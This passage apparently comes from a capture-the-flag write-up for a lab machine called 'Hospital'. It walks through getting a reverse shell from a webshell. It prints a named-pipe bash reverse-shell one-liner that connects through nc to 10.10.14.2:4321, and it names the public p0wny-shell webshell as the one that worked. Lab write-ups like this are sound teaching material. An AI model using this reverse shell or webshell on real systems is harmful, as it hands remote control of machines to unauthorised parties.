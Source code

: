 
Returning tot he webshell responses, and attempting to redirecting them by  forwarding it back to the terminal also fails.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.2 4321 >/tmp/f
```

Trying the command encoded in base-64 and url-encoding also fails. This indicates the problem is likely with the websehll itself.

Trying a new shell from [flozz](https://github.com/flozz/p0wny-shell/tree/master) is successful and a working webshell is obtained.

<img src="/assets/img/2024-hospital/webshell-success.png" alt="webshell-success.png" class="auto-resize">

Forwarding it back to the terminal is also successful.

<img src="/assets/img/2024-hospital/forward-webshell.png" alt="forward-webshell.png" class="auto-resize">

To stabilise the shell we can use the following command combination.

<img src="/assets/img/2024-hospital/stabilise-shell.png" alt="stabilise-shell.png" class="auto-resize">
